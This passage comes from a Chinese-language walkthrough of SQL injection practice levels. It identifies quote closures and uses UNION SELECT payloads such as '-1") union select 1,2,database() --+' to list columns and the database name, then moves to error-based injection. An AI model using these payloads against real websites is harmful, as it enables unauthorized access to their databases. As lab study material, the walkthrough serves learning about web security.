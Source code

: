 ![image](https://user-images.githubusercontent.com/76896357/114826920-a4f77e00-9dfa-11eb-9613-9d757b875fe4.png)

给个证明，不多做了

这一关过！！！！

## 4.”字符型注入

* 查看注入方式，输入1‘不行，1“报错

![image](https://user-images.githubusercontent.com/76896357/114827042-cb1d1e00-9dfa-11eb-82e8-3a47c7c01055.png)


根据报错显示这道题的闭合方式应该是“)

* 查询回显位
```
-1") union select 1,2,3 --+//前面一定要是错的
```

![image](https://user-images.githubusercontent.com/76896357/114827286-10d9e680-9dfb-11eb-9974-6690deabc7f8.png)

* 查库
```
-1") union select 1,2,database() --+
```

![image](https://user-images.githubusercontent.com/76896357/114827516-5d252680-9dfb-11eb-8f6d-1f136fe29b7d.png)

显然和第一关一样，不再赘述，过


## 5. 报错注入

* 在这里，继续查看他的闭合方式以及注入类型

```
-1' union select 1,2,3 --+
```

![image](https://user-images.githubusercontent.com/76896357/114827854-c442db00-9dfb-11eb-8a3d-c7972e860903.png)

通过报错发现，他的闭合方式是‘而且是字符型注入

* 查看他有没有回显
```
-1' union select 1,2,3 --+
```

![image](https://user-images.githubusercontent.com/76896357/114828080-0ff58480-9dfc-11eb-89f3-8165d4594b2c.png)

__完了，没有回显了，那么我们就想到报错注入__

```
-1' union select 1,2,3,4 --+
```

![image](https://user-images.githubusercontent.com/76896357/114828373-6662c300-9dfc-11eb-9b32-ac5d96f1faef.png)
